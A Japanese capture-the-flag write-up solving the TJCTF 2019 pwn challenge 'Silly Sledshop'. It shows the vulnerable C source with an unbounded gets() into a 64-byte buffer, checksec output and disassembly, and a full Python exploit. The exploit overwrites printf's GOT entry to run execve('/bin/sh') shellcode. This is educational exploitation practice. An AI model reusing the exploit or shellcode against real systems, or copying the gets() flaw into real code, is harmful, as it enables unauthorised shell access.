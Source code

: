 // date: 2019-04-10

# はじめに
2019年4月の4日〜8日、TJCTFにNekoChanNano!というCTFチームで参加しました。自分はまだ初心者であり、レベルがかなり高かったと思います。良い勉強になりましたので、今回はPwn系の問題「Silly Sledshop」の解き方を解説していきたいと思います。

# 概要
こちらはチャレンジ記載：
```
Silly Sledshop - 80 Points
Written by evanyeyeye

Omkar really wants to experience Arctic dogsledding. Unfortunately, the sledshop (source) he has come across is being very uncooperative. How pitiful.
Lesson: nothing stops Omkar.
He will go sledding whenever and wherever he wants.

nc p1.tjctf.org 8010
```
その上、32ビットのELFバイナリとそのソースコードを手に入れます。

# 解析
まずはELFファイルを実行してみましょう。
```
$ ./sledshop
The following products are available:
|  Saucer  | $1 |
| Kicksled | $2 |
| Airboard | $3 |
| Toboggan | $4 |
Which product would you like?
```
メニューが表示され、入力を待っているようです。そして指示すると、
```
[...]
Which product would you like?
1
Sorry, we don't currently have the product 1 in stock. Try again later!
$　#品切れだったら先に言ってよ！ヾ(｡>﹏<｡)ﾉﾞ
```
さあ次に、ソースコードを確認しよう〜
```c
#include <stdio.h>
#include <stdlib.h>

void shop_setup() {
    gid_t gid = getegid();
    setresgid(gid, gid, gid);
    setbuf(stdout, NULL);
}

void shop_list() {
    printf("The following products are available:\n");
    printf("|  Saucer  | $1 |\n");
    printf("| Kicksled | $2 |\n");
    printf("| Airboard | $3 |\n");
    printf("| Toboggan | $4 |\n");
}

void shop_order() {
    int canary = 0;
    char product_name[64];

    printf("Which product would you like?\n");
    gets(product_name);

    if (canary)
        printf("Sorry, we are closed.\n");
    else      
        printf("Sorry, we don't currently have the product %s in stock. Try again later!\n", product_name);
}

int main(int argc, char **argv) {
    shop_setup();
    shop_list();
    shop_order();
    return 0;
}
```
興味あるのはshop_order関数ですね。中には、getsでstdinを読み込み、入力データのサイズを確認せずに64バイトのバッファーproduct_nameに書き込みます。単純なバッファーオーバーフローが使えるように見えますが、実行ファイルのセキュリティ機構を確認すれば:
```
$ checksec ./sledshop
[*] '<省略>/sledshop'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
$
```
何だ、いけるじゃん。ただし、チャレンジサーバーではASLRが有効なので、スタックにシェルコードを置いても、アドレスがランダム化されるため、そこにリターン出来ません。そこで、長く長く長く流れるNOPスレッドを使えば行けるかもしれないけど、リモートサーバーですし時間かかりそうだから面倒くさい。シェルコードを一回で実行する方法を考えたほうがいいので、さあ楽しいシンキングタイムだぜ！

# 作戦
スタックトークンがないから普通のスタックオーバーフローで任意アドレスへ移動することが出来ます。ASLRが有効になるため、スタック内アドレスに簡単に戻れませんが、テキスト領域かGOT領域ならアドレスが固定なので使えます。

あと、Full RELROがないので、GOT領域が書込可能。問題はどうやって書き込むのかですね。ただのスタックオーバーフローだけだとスタック以外のメモリを書き込むことが出来ません。ディスアセンブリを読みながら任意アドレスを書き込む方法がわかりました。
```
80485dc:	8d 45 b4             	lea    eax,[ebp-0x4c]
80485df:	50                   	push   eax
80485e0:	e8 eb fd ff ff       	call   80483d0 <gets@plt>
```
これでございます。EBPから0x4cバイトを引いて読み込み先にし、gets関数を呼び出すとするアセンブリ命令。素敵じゃないですか！EBPレジスターを設定できれば、指定したアドレスの位置から0x4cを引いて、結果のアドレスに書き込みます。これを使えば、例えばprintf関数のGOTポインターに0x4cを足し、スタックのリターンポインターの前に置いて、このアセンブリ命令の冒頭に移動してprintfのGOTポインターを書き込んでしまう。とっても素敵！

# エクスプロイト
```python
#!/usr/bin/env python2
# -*- coding: utf-8 -*-
import struct, os
# 作戦：printf関数のGOTポインターを書き換えることで、実行可能であるGOT領域に置いたシェルコードを実行する。
# GOTポインターを書き換えるには、ebxを設定し、バッファーオーバーフローでshop_order関数の真ん中に戻り、
# getsによりprintfのポインターを4バイト後の0x804a014に変えて、直後にシェルコードを同時期に置いておく。
# getsからshop_orderに戻ったらprintfが自然に呼び出されて、シェルコードを実行してしまう。

def payload():
    junk = "a"*76
    alphabet = "".join([x*4 for x in "ABCDEFGHIJKLMNOPQRSTUVWXYZ"])
    shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
    gadget_gets = struct.pack('<I', 0x080485dc)    # gets() -> [ebp-0x4c]
    got_printf = struct.pack('<I', 0x804a010+0x4c) # printf()のGOTポインター。0x4cはアセンブリ命令に引かれます
    after_printf = struct.pack('<I', 0x804a014)    # printf()の直後ではあるが、偶然でgets()のGOTポインターでもある
    return junk + got_printf + gadget_gets + "\n" + after_printf + shellcode

print(payload())
```

そして実行：
![flag.png](.res/silly_sledshop_1.png)

以上Silly Sledshopの解答方法でした。
